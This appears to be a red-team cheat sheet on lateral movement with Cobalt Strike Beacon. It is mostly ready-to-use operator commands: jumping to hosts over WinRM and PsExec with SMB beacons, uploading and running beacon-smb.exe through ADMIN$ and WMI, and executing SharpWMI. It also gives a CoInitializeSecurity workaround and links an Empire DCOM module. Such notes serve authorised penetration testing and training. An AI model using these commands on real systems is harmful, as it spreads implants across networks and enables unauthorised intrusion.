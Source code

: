 #### PowerShell Remoting

**Getting the architectur**

* for winrm or winrm64 with jump

```
remote-exec winrm <HOSTNAME> (Get-WmiObject Win32_OperatingSystem).OSArchitecture
```

**Jump winrm smb beacon**

```
jump winrm64 <HOSTNAME> smb
```

#### PSexec

```
jump psexec64 <HOSTNAME> smb
```

#### WMI

```
cd \\<HOSTNAME>\ADMIN$
upload C:\Payloads\beacon-smb.exe
remote-exec wmi <HOSTNAME> C:\Windows\beacon-smb.exe
link <HOSTNAME>
```

#### WMI exec commands

```
remote-exec winrm <HOSTNAME> whoami; hostname
```

**CoInitializeSecurity**

* Beacon's internal implementation of WMI uses a Beacon Object File, executed using the beacon\_inline\_execute Aggressor function. When a BOF is executed the CoInitializeSecurity COM object can be called, which is used to set the security context for the current process. According to Microsoft's documentation, this can only be called once per process. The unfortunate consequence is that if you have CoInitializeSecurity get called in the context of, say "User A", then future BOFs may not be able to inherit a different security context ("User B") for the lifetime of the Beacon process.
* if CoInitializeSecurity has already been called, WMI fails with access denied.
* As a workaround, your WMI execution needs to come from a different process. This can be achieved with commands such as spawn and spawnas, or even execute-assembly with a tool such as SharpWMI.

```
remote-exec wmi srv-2 calc
execute-assembly SharpWMI.exe action=exec computername=<HOSTNAME> command="C:\Windows\System32\calc.exe"
```

**DCOM**

* [https://github.com/EmpireProject/Empire/blob/master/data/module\_source/lateral\_movement/Invoke-DCOM.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/lateral\_movement/Invoke-DCOM.ps1)
